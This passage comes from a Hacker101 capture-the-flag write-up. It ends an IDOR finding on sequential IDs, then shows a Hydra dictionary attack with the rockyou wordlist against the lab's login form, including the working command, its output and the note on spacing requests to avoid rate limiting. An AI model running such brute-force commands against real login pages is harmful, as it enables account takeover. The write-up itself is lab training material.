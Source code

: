 ![First Flag](FirstFlag.png)

This vulnerability demonstrates how applications that rely on sequential IDs without proper access controls can expose unauthorized content.

---

## 🔐 Step 3: Second Flag - Credential Brute Force Attack
The hint mentioned that the user had an easy password, which suggested a brute force attack would be effective. After avoiding rate limiting by spacing out my requests, I used Hydra to perform a dictionary attack.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt \
0086785f04db9d6b04f502f161e248a4.ctf.hacker101.com \
https-post-form "/index.php?page=sign_in.php:username=^USER^&password=^PASS^:wrong username/password"
```

**Results:**
```
[443][http-post-form] host: 0086785f04db9d6b04f502f161e248a4.ctf.hacker101.com   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

The credentials were `user:password` - indeed a very weak password! Once authenticated, I gained access to the second flag.
